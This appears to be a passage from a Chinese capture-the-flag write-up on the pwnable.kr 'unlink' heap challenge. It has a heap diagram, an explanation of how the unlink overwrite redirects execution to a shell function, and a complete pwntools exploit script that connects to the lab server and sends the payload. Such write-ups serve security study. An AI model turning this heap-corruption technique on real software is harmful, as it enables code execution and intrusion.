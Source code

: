 ———————————     <=B , A+0x8+0x8+0x8

|A heap +12|A stack+0x10|    

———————————     <=B->buf

|                                      |

———————————

接下来调用unlink及其后面指令的原理简单记录：

```
//unlink之后得到的两条方程
*（（A stack+0x10）+ 0）= A heap +12
*（（A heap +12） + 4）= A stack+0x10

//指针一化简得到
*(ebp-0x14+0x10+0)=shellcode + 0x4
//ebp-0x4指向的值被覆写为shellcode + 0x4

//ebp-0x4指向的值shellcode+4被传入ecx
mov ecx,[ebp+var_4]

//ecx-4指向的shellcode开始行被传入到esp中（shellcode+4-4）
lea esp,[ecx-4]

//退出main，但是eip被修改为shellcode开始运行行，变成了运行shellcode
retn
```



## 脚本

```python
#coding=utf-8
from pwn import *
context.log_level = 'debug'
shell_addr = 0x080484eb#IDA函数列表可查得

# 与服务器建立ssh链接
s =  ssh(host='pwnable.kr',
         port=2222,
         user='unlink',
         password='guest'
        )
p = s.process("./unlink") # 加载程序
# 获取 A 栈地址
p.recvuntil("here is stack address leak: ")
stack_addr = p.recv(10)
stack_addr = int(stack_addr,16)
# 获取 A 堆地址
p.recvuntil("here is heap address leak: ")
heap_addr = p.recv(9)
heap_addr = int(heap_addr,16)

payload = p32(shell_addr)+'a'*12+p32(heap_addr + 12)+p32(stack_addr +16)

p.send(payload)
p.interactive()
```
